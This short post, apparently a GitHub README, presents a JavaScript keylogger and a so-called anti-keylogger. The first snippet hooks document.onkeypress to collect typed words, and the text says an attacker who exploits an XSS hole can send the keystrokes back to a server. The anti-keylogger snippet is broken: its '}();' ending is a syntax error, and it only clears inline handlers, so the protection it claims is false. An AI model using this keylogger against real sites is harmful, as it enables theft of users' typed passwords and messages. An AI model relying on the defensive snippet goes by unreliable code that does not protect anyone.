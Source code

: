 **JavaScript Keylogger & Anti-Keylogger**
===

There has been lot of questions on this, and people are still confused like how to write a keylogger with Javascript, does it work ? So here it is.. an yes it works, basically it not a magic as such we just exploit the onkeypress() function here. If your wesite has an XSS vernuability attacker can attach an listener and send the keystrokes back to the service.

```js
// this will attach a listener to the onkeypress() event
document.onkeypress = function(e){ 
    window.keyp += e.key;  //we store the key into a window variable to create the complete word
    if(e.code === "Space") // we check for when space is pressed to print the word out in console
    { 
        console.log(window.keyp); //print
        window.keyp = ""; // we made the window variable null again
    } 
};
```
To overcome this we can have someting as AntiKeylogger and call it when the page is loaded
```js
//disables the keystroke logging 
function AntiKeylogger(){
    window.onkeydown = undefined;
    window.onkeypress = undefined;
    window.onkeyup = undefined;
    document.onkeydown = undefined;
    document.onkeypress = undefined;
    document.onkeyup = undefined;
}();
```
